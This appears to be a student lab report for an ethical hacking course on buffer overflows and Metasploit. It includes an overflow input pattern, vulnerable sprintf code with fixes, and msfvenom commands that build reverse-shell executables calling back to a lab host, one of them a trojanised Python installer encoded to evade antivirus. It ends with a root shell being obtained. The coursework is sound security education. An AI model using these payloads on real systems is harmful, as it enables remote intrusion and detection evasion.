







# Lab 4 – Buffer Overflow Attacks and Exploit Frameworks

**Course:** Ethical Hacking (GDT3CR)  
**Platform:** Raspberry Pi 4 / Virtual Lab Environment  
**Operating System:** Kali Linux & Windows Target VM  
**User:** freesensei

---

# 4.1 Buffer Overflow (Insecure Programming)

## 4.1.1 Theoretical Background

### Objective
To understand why buffer overflow vulnerabilities occur in low-level programming languages such as C and C++.

### Description

Buffer overflows arise because C and C++ allow direct manipulation of memory without automatic boundary checking. Programs must manually ensure that buffers are not exceeded.

Common causes include:

- Missing bounds checking  
- Unsafe standard library functions  
- Manual memory handling  
- Stack-based return address storage  

Examples of unsafe functions:

- `gets()`
- `strcpy()`
- `sprintf()`
- `scanf("%s")`

If input exceeds allocated memory, adjacent memory regions may be overwritten, including return addresses. This allows attackers to redirect execution flow and execute arbitrary code.

### Security Impact

A successful buffer overflow may result in:

- Execution flow hijacking  
- Privilege escalation  
- Remote code execution  
- Complete system compromise  

---

## 4.1.2 GNU/Linux Task — Stack One (Secret Pattern)

### Objective
Trigger a controlled buffer overflow using a predefined input pattern.

### Input Pattern

The exploit input consisted of:

- 64 characters `'A'`
- Followed by hexadecimal bytes:

```bash
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x62\x59\x6c\x49
```

### Explanation

The padding fills the buffer until the stored control value is reached.  
The appended bytes overwrite memory and demonstrate how predictable layouts enable exploitation.



---

## 4.1.3 Server Compromise Analysis

### Attack 1 — Buffer Overflow via `sprintf`

The authentication server used a 16-byte buffer for login credentials. Oversized input caused memory overflow into adjacent variables, modifying the authentication flag.

```c
sprintf(buffer, input);
```

`sprintf()` performs no bounds checking.

---

### Attack 2 — Authentication Bypass using `strstr`

Submitting an empty string (`""`) allowed authentication bypass:

1. `sprintf()` generated an empty string.
2. `strstr()` searched credentials for that value.
3. A match always occurred.

Result: unauthorized login success.

---

### Implemented Fixes

#### Buffer Protection

```c
snprintf(buffer, sizeof(buffer), "%s", input);
```

- Limits written data
- Prevents overflow
- Buffer increased to 128 bytes

#### Logic Fix

```c
strcmp()
```

- Exact matching required
- Empty inputs rejected

#### Secure File Handling

- `fopen()` → `fopen_s()`
- Removed newline characters before comparison

---

# 4.2 Exploit Frameworks — Client-Side Attacks

## Reverse TCP Shell (Stageless)

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.144 LPORT=31337 -f exe -o msf_shell_rev_tcp1.exe
```

- Full payload embedded
- Immediate execution
- Easier AV detection



---

## Reverse TCP Shell (Staged)

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.144 LPORT=31337 -f exe -o msf_shell_rev_tcp2.exe
```



Two stages:

1. Loader connects
2. Payload downloaded in memory

| Feature | Stageless | Staged |
|---|---|---|
| Size | Large | Small |
| Detection | Higher | Lower |
| Stealth | Lower | Higher |

---

## Encoded Meterpreter Payload

```bash
msfvenom --platform windows -p windows/meterpreter/reverse_tcp \
LHOST=10.0.0.144 LPORT=31337 \
-x python-3.14.3-amd64.exe -k \
-e x86/shikata_ga_nai -i 3 \
-f exe -o python_bdoor.exe
```

Encoding and executable injection improve evasion.



---

## Exploitation Result From Evil.pdf



```bash
whoami
ls -al
```

A Meterpreter session confirmed remote control.


---

# 4.3 Stack-Based 64-bit Buffer Overflow

## Stack Inspection

```bash
x/100x $rsp -700
```

Observed:

```
0x41414141
```

Confirming buffer placement.



---

## Offset Discovery

Calculated offsets:

- RBP overwrite: **608 bytes**
- RIP control: **616 bytes**

---

## Successful Exploit

```
Command shell session 1 opened
```

Verification:

```bash
whoami
```

Output:

```
root
```



---

# 4.7 Lab Reflection

## Relevance

This lab demonstrated:

- Stack memory behavior  
- Buffer overflow exploitation  
- Secure vs insecure coding practices  
- Payload delivery and post-exploitation  

---

## Ethical Disclaimer

All activities were conducted in controlled laboratory environments for educational purposes only.

No unauthorized systems were targeted.